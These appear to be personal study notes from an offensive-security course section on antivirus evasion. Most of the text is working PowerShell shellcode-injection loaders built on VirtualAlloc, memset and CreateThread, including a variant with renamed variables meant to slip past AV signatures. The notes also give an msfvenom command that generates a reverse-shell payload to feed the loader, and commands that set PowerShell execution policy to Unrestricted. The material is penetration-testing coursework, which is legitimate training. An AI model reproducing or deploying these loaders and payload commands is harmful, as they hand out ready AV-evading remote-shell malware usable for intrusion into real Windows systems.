 ## Section 3 AV Evasion In Practice
### 14.3.2 Evading AV With Thread Injection
- Basic templated script for in-memory injection
	- x86 powershell execution
```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
	Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
- More covert version
	- x86 powershell execution
```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$var2 = 
	Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$var1 = <place your shellcode here>;

$size = 0x1000;

if ($var1.Length -gt 0x1000) {$size = $var1.Length};

$x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

$var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
- Save the above script as a .ps1 file
- Command to generate the shellcode for the above script
	- x86 powershell
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<IP> -f powershell -v sc
```
- Can also use ps_encoder.py in /offsec folder
- How to get the execution policy for powershell scripts 
```
Get-ExecutionPolicy -Scope CurrentUser
```
- Set execution policy globally for current user
```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```
## Section 2

## Exercises To-Do

- [ ] 2.1.1 (page 20)